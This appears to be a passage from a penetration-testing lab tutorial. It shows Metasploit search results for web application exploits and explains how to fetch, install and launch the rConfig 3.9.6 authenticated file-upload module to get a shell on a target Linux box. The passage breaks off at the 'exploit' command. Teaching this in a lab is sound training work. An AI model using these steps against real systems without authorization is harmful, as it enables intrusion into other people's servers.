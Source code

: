 
Matching Modules
================

   #  Name                                             Disclosure Date  Rank       Check  Description
   -  ----                                             ---------------  ----       -----  -----------
   0  exploit/multi/http/solr_velocity_rce             2019-10-29       excellent  Yes    Apache Solr Remote Code Execution via Velocity Template
   1  auxiliary/gather/nuuo_cms_file_download          2018-10-11       normal     No     Nuuo Central Management Server Authenticated Arbitrary File Download
   2  exploit/linux/http/rconfig_ajaxarchivefiles_rce  2020-03-11       good       Yes    Rconfig 3.x Chained Remote Code Execution
   3  exploit/unix/webapp/rconfig_install_cmd_exec     2019-10-28       excellent  Yes    rConfig install Command Execution
</code></pre>
<p>One detail that can be overlooked when relying on MSF to find an exploit module for a specific application is the version of MSF. There may be useful exploit modules that are not installed on our system or just aren't showing up via search. In these cases, it's good to know that Rapid 7 keeps code for exploit modules in their <a href="https://github.com/rapid7/metasploit-framework/tree/master/modules/exploits">repos on github</a>. We could do an even more specific search using a search engine: <code>rConfig 3.9.6 exploit metasploit github</code></p>
<p>This search can point us to the source code for an exploit module called <code>rconfig_vendors_auth_file_upload_rce.rb</code>. This exploit can get us a shell session on a target Linux box running rConfig 3.9.6. If this exploit did not show up in the MSF search, we can copy the code from this repo onto our local attack box and save it in the directory that our local install of MSF is referencing. To do this, we can issue this command on our attack box:</p>
<h4>Locate</h4>
<pre><code class="language-shell-session">[!bash!]$ locate exploits
</code></pre>
<p>We want to look for the directories in the output associated with Metasploit Framework. On Pwnbox, Metasploit exploit modules are kept in:</p>
<p><code>/usr/share/metasploit-framework/modules/exploits</code></p>
<p>We can copy the code into a file and save it in <code>/usr/share/metasploit-framework/modules/exploits/linux/http</code> similar to where they are storing the code in the GitHub repo. We should also keep msf up to date using the commands <code>apt update; apt install metasploit-framework</code> or your local package manager. Once we find the exploit module and download it (we can use wget) or copy it into the proper directory from Github, we can use it to gain a shell session on the target. If we copy it into a file on our local system, make sure the file has <code>.rb</code> as the extension. All modules in MSF are written in Ruby.</p>
<hr/>
<h2>Using the rConfig Exploit and Gaining a Shell</h2>
<p>In msfconsole, we can manually load the exploit using the command:</p>
<h4>Select an Exploit</h4>
<pre><code class="language-shell-session">msf6 &gt; use exploit/linux/http/rconfig_vendors_auth_file_upload_rce
</code></pre>
<p>With this exploit selected, we can list the options, input the proper settings specific to our network environment, and launch the exploit.</p>
<div class="alert alert-primary fade show" role="alert">
<i class="mdi mdi-information-outline mr-2"></i> Use what you have learned in the module thus far to fill out the options associated with the exploit. 
</div>
<h4>Execute the Exploit</h4>
<pre><code class="language-shell-session">msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) &gt; exploit
